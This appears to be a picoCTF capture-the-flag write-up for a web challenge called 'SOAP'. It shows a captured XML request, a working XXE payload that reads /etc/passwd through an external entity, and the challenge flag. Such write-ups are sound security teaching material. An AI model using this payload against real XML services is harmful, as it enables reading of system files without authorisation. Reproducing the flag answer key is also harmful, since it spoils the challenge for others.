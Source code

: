 # SOAP
Write-Up by **Mttttt** *2024-06-25*

## Task description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? [Web Portal](http://saturn.picoctf.net:55688/)

- *Category*: **Web Exploiation**
- *Difficulty*: **Medium**

## Solution 
Lets capture our request
```
POST /data HTTP/1.1
Host: saturn.picoctf.net:55688
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://saturn.picoctf.net:55688/
Content-Type: application/xml
Content-Length: 61
Origin: http://saturn.picoctf.net:55688
Connection: close
Priority: u=1

<?xml version="1.0" encoding="UTF-8"?><data><ID>1</ID></data>
```

It seems to be XXE vulnerability

Use payload `<!DOCTYPE data [ <!ENTITY xxe SYSTEM "file:///etc/passwd">`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> <!-- This is an external entity -->
]>
<data>
  <ID>&xxe;</ID>
</data>
```

## Answer
`picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}`
